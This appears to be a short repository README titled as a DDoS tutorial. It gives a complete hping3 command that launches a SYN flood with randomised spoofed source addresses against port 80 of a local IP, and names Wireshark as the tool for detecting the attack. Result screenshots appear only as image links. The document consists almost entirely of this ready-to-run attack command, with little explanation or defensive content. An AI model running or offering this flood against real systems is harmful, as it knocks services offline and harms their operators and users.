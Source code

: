 # DDoS Attack using Kali Linux and hping3.

To make an SYN attack we will use Kali Linux and hping3. 
To detect the attack we will use Wireshark.
The command to send packets to a victim is:- hping3 -c 15000 -d 120 -S -w 64 -p 80 –flood –rand-source 192.168.1.4

![](https://i.imgur.com/WKPS7td.png)

# Results
![](https://i.imgur.com/5z2LtrT.png)
